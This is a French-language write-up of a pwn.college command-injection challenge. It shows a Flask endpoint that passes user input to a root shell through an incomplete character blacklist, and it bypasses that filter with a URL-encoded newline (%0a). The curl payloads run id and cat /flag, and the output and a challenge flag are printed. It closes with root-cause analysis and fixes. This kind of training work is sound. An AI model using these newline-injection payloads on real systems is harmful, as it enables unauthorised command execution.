


**Plateforme :** pwn.college
**Catégorie :** Command Injection (CMDi)
**Niveau :** 6
**Auteur :** ***3ch***

---

## TL;DR

Le service expose un `ls -l` sur un répertoire fourni par l'utilisateur. Une liste noire filtre les métacaractères shell classiques (`; & | > < ( ) \` $`) mais **oublie le caractère de retour à la ligne (`\n`, 0x0A)**, qui est lui aussi un séparateur de commande valide pour `/bin/sh`. Le filtrage s'appliquant sur la chaîne brute reçue par Flask, il suffit d'envoyer un vrai octet `\n` via l'**encodage URL (`%0a`)** — plutôt que la séquence littérale `\n` — pour que le serveur web décode la requête et transmette un authentique saut de ligne à `subprocess.run(..., shell=True)`, permettant l'exécution de commandes arbitraires.

---

## 1. Contexte

Le challenge fournit un service Flask exécuté en `setuid` (`/usr/bin/exec-suid`) qui liste le contenu d'un répertoire via la route `/goal` :

```python
@app.route("/goal", methods=["GET"])
def challenge():
    arg = (
        flask.request.args.get("subdirectory", "/challenge")
        .replace(";", "")
        .replace("&", "")
        .replace("|", "")
        .replace(">", "")
        .replace("<", "")
        .replace("(", "")
        .replace(")", "")
        .replace("`", "")
        .replace("$", "")
    )
    command = f"ls -l {arg}"

    result = subprocess.run(
        command,
        shell=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout
    ...
```

Le paramètre `subdirectory` est injecté tel quel dans une commande `ls -l {arg}` exécutée avec `shell=True`, ce qui en fait une cible d'injection de commande classique — à condition de passer le filtrage.

## 2. Analyse des protections en place

Le code applique une **liste noire** de caractères, retirés un par un de l'entrée avant construction de la commande :

| Caractère | Rôle habituel en injection shell |
|---|---|
| `;` | Séparateur de commandes |
| `&` | Exécution en arrière-plan / `&&` |
| `\|` | Pipe |
| `>` `<` | Redirections |
| `(` `)` | Sous-shell |
| `` ` `` | Command substitution |
| `$` | Expansion de variable / `$()` |

Tous les vecteurs d'injection « évidents » sont donc neutralisés. Il faut chercher un séparateur de commande **absent de cette liste**.

## 3. Recherche du bypass

### 3.1 Constat : le backslash n'est pas filtré

En relisant la liste des caractères filtrés, le backslash `\` n'y figure pas. Or `\` sert à la fois de caractère d'échappement et peut intervenir dans la construction d'un `\n` (retour à la ligne), qui est **interprété par `/bin/sh` comme un séparateur de commande au même titre que `;`**.

### 3.2 Premier essai infructueux

Envoyer littéralement la séquence de deux caractères `\` + `n` :

```
subdirectory=\nid
```

→ échec : le serveur refuse / n'exécute rien d'utile.

**Explication :** taper `\n` dans une URL ou un `curl` sans encodage spécifique n'envoie **pas** un octet de saut de ligne (0x0A) — cela envoie deux caractères imprimables, backslash et « n ». Le shell ne les interprète donc pas comme un séparateur de commande ; ils sont simplement concaténés au nom de répertoire pour `ls`.

### 3.3 Bypass : encodage URL du vrai retour à la ligne

Il faut donc transmettre l'**octet réel** `0x0A`, dont la représentation en encodage URL est `%0A` (ou `%0a`). Une fois décodé côté serveur par Flask, ce `%0a` redevient un authentique caractère de nouvelle ligne dans la chaîne Python — caractère qui n'est jamais passé dans le pipeline de `.replace(...)` (puisqu'aucune règle ne le cible) et que `/bin/sh` traite comme séparateur de commande.

## 4. Exploitation

### 4.1 Preuve de concept — exécution de commande

```bash
curl --path-as-is "http://challenge.localhost:80/goal?subdirectory=%0aid"
```

`--path-as-is` évite que `curl` ne « nettoie » ou ne réinterprète le chemin/la requête.

**Résultat :**

```
Output of ls -l 
id:
total 16
drwxr-xr-x 1 hacker hacker    0 Jun 12 23:04 Desktop
drwxr-xr-x 1 hacker hacker    0 Aug  3 15:40 Downloads
-rw-r--r-- 1 hacker hacker 1004 Aug 10 14:59 cert.der
-rw-r--r-- 1 hacker hacker   60 Jun 15 16:59 f
-rw------- 1 hacker hacker  432 Jun 15 14:46 key
-rw-r--r-- 1 hacker hacker  116 Jun 15 14:46 key.pub
drwxr-xr-x 1 hacker hacker   12 Jun 15 14:58 leap
-rw-r--r-- 1 root   hacker    0 Aug 10 15:21 test
uid=0(root) gid=1000(hacker) groups=1000(hacker)
```

La commande exécutée est en réalité :

```bash
ls -l 
id
```

soit deux commandes distinctes séparées par un saut de ligne. `id` confirme une exécution en tant que **`uid=0(root)`**, cohérent avec le binaire `setuid` (`/usr/bin/exec-suid`).

''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''

### 4.2 Lecture du flag

```bash
curl --path-as-is "http://challenge.localhost:80/goal?subdirectory=%0a%20cat%20/flag"
```

(`%20` encode l'espace entre `cat` et `/flag`, également absent de toute liste noire.)

**Flag :**

```
pwn.college{Eg8IyAB6XtADXyEIXp3bD3dIx93.QX0cTN2wSM5EjN3EzW}
```


## 5. Analyse de la cause racine

- Le filtrage est une **liste noire incomplète** : elle bloque les métacaractères shell « visibles » mais oublie que `\n` (et potentiellement `\t`, `\r` selon le shell) est également un séparateur de commande.
- Le filtrage s'effectue sur la chaîne **après décodage URL** par Flask/Werkzeug — l'attaquant contrôle donc l'octet brut envoyé, il lui suffit de choisir un caractère interdit-mais-oublié et de l'encoder pour qu'il traverse la couche HTTP intact.
- La cause profonde reste l'usage de `subprocess.run(command, shell=True)` avec de la concaténation de chaînes : **toute** liste noire de caractères est structurellement fragile face à ce pattern.

## 6. Remédiation

- Ne jamais construire de commande shell par concaténation de chaînes utilisateur.
- Utiliser `subprocess.run(["ls", "-l", arg], shell=False)` : l'argument est alors passé comme un seul token, sans interprétation shell, quel que soit son contenu.
- Si un usage shell est réellement nécessaire, échapper l'entrée avec `shlex.quote()` plutôt que de tenter un filtrage caractère par caractère.
- Préférer une **liste blanche** stricte (ex. `^[a-zA-Z0-9_/\.-]+$`) à une liste noire, toujours incomplète par nature.
